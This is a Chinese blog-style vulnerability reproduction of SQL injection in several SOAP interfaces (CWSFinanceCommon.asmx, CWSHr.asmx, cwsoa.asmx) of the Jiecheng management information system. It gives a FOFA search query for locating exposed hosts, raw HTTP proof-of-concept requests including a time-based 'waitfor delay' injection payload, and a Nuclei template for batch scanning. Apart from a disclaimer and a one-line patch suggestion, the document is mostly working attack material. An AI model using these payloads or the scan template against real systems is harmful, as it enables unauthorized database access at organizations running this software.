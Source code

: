 # 原创
：  漏洞复现--捷诚管理信息系统多处SQL注入

# 漏洞复现--捷诚管理信息系统多处SQL注入

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业有效的开展内部审批工作。该产品CWSFinanceCommon.asmx、CWSHr.asmx、cwsoa.asmx多处接口存在SQL注入。

### 二：漏洞影响版本

全版本

### 三：网络空间测绘查询

fofa:<br/> `body="/Scripts/EnjoyMsg.js"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/94504ae42cd197305cc199d907495bd3.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b0aac210ccfa5a69a90141616afbc394.jpeg"/><br/> POC1:

```
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36
Connection: close
Content-Length: 369
Accept: */*
Accept-Language: en
Content-Type: text/xml; charset=utf-8
Accept-Encoding: gzip

&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"&gt;
  &lt;soap:Body&gt;
    &lt;GetOSpById xmlns="http://tempuri.org/"&gt;
      &lt;sId&gt;1';waitfor delay '0:0:5'--+&lt;/sId&gt;
    &lt;/GetOSpById&gt;
  &lt;/soap:Body&gt;
&lt;/soap:Envelope&gt;

```

延时注入5秒<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/63b4373192d4acbefddfecf39b8c1102.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c54751ace4b49692f342d30e9e5a5e8b.jpeg"/><br/> POC2：

```
POST /EnjoyRMIS_WS/WS/Hr/CWSHr.asmx HTTP/1.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
SOAPAction: http://tempuri.org/GetLeaveReqById
Content-Type: text/xml;charset=UTF-8
Content-Length: 316

&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/"&gt;
   &lt;soapenv:Header/&gt;
   &lt;soapenv:Body&gt;
      &lt;tem:GetLeaveReqById&gt;
         &lt;!--type: string--&gt;
         &lt;tem:sId&gt;gero et&lt;/tem:sId&gt;
      &lt;/tem:GetLeaveReqById&gt;
   &lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/491789b56c154462725cd597635bcc3d.jpeg"/><br/> POC3:

```
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Host: x.x.x.x![image.png](https://image.3001.net/images/20231122/1700631040_655d920042b6ad451a8e4.png!small)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
SOAPAction: http://tempuri.org/GetOAById
Content-Type: text/xml;charset=UTF-8
Content-Length: 276

&lt;soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:tem="http://tempuri.org/"&gt;
   &lt;soap:Header/&gt;
   &lt;soap:Body&gt;
      &lt;tem:GetOAById&gt;
         &lt;!--type: string--&gt;
         &lt;tem:sId&gt;gero et&lt;/tem:sId&gt;
      &lt;/tem:GetOAById&gt;
   &lt;/soap:Body&gt;
&lt;/soap:Envelope&gt;

```

### 五：批量验证

```
id: jiecheng-CWSFinanceCommon-sqli

info:
  name: 捷诚管理信息系统 CWSFinanceCommon.asmx SQL注入漏洞
  author: fgz
  severity: high
  description: '捷诚管理信息系统是一款功能全面，可以支持自营、联营到外柜租赁的管理，其自身带工作流管理工具，能够帮助企业有效的开展内部审批工作。该系统CWSFinanceCommon.asmx 存在sql注入漏洞。黑客可以通过该漏洞获取数据库敏感信息，甚至远控服务器。'
  tags: 2023,jiecheng,sqli
  metadata:
    max-request: 3
    fofa-query: body="/Scripts/EnjoyMsg.js"
    verified: true

http:
  - method: POST
    path:
      - "{{BaseURL}}/EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx"
    headers:
      Content-Type: text/xml; charset=utf-8
    body: "&lt;?xml version=\"1.0\" encoding=\"utf-8\"?&gt;\n&lt;soap:Envelope xmlns:xsi=\"\
      http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"\
      \ xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\"&gt;\n  &lt;soap:Body&gt;\n\
      \    &lt;GetOSpById xmlns=\"http://tempuri.org/\"&gt;\n      &lt;sId&gt;1';waitfor delay\
      \ '0:0:5'--+&lt;/sId&gt;\n    &lt;/GetOSpById&gt;\n  &lt;/soap:Body&gt;\n&lt;/soap:Envelope&gt;"
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 &amp;&amp; duration&gt;=5 &amp;&amp; duration&lt;=6"

```

### 六：修复建议

联系厂家获取修复补丁。
